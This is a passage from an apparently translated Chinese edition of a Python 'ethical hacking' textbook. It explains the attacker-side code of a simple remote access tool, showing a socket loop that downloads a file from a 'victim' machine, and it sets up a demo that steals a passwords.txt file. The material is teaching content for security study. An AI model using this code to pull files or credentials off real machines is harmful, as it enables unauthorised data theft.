 接下来，我们需要在黑客程序中接收这些数据。为此，进入黑客程序并检查接收到的**exists**变量的值。如果受害者的回复是**yes**，这意味着文件在受害者的机器上存在，我们可以开始下载文件。请注意，我们刚刚开发了一个发送数据的程序，现在我们将在这里接收相同的数据。接收到的数据将是字节形式，我们将把这些字节写入到黑客的 PC 上，以生成与受害者 PC 上相同的文件。让我们看看以下代码：

if exist.decode() == "yes":

print("文件已存在")

# 在此接收文件

file_name = command.strip("download ")

with open(file_name, "wb") as file:

print("正在下载文件")

while True:

chunk = hacker_socket.recv(CHUNK_SIZE)

file.write(chunk)

if chunk.endswith(eof_identifier.encode()):

chunk = chunk[:-len(eof_identifier)]

file.write(chunk)

break

print("下载成功，", file_name)

如果文件存在，我们将创建一个与**file_name**同名的新文件。请注意，我们以**wb**（写入二进制模式）创建文件，这样我们就可以下载任何类型的文件。创建文件后，我们需要写入从受害者处接收到的文件内容。我们定义**CHUNK_SIZE**变量的大小与受害者在发送数据时定义的大小相同，然后我们开始连续接收数据并写入磁盘，直到接收到文件末尾的标识符。你需要定义与受害者相同的**eof_identifier**变量，否则程序将无法正常工作。一旦达到标识符，我们就去除标识符，写入剩余的字节到磁盘，并退出循环。最后，我们可以打印出一条语句，指示我们已接收到所有数据。现在我们的程序完成了，使用这个程序，我们可以从受害者下载数据到黑客机器。

黑客的完整代码如下：

[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example10-hacker-advanced/hacker.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example10-hacker-advanced/hacker.py)

)

同样，发送文件给黑客的受害者完整代码如下：

[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example11-advanced-victim/advanced-victim.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example11-advanced-victim/advanced-victim.py)

)

现在，让我们尝试运行这个程序。首先运行黑客程序，然后是受害者程序。

在受害者的 PC 上创建一个名为**passwords.txt**的文件，并写入一些随机密码：

![图 7.2 – 受害者 PC 上的密码文件](img/B14788_07_02.jpg)
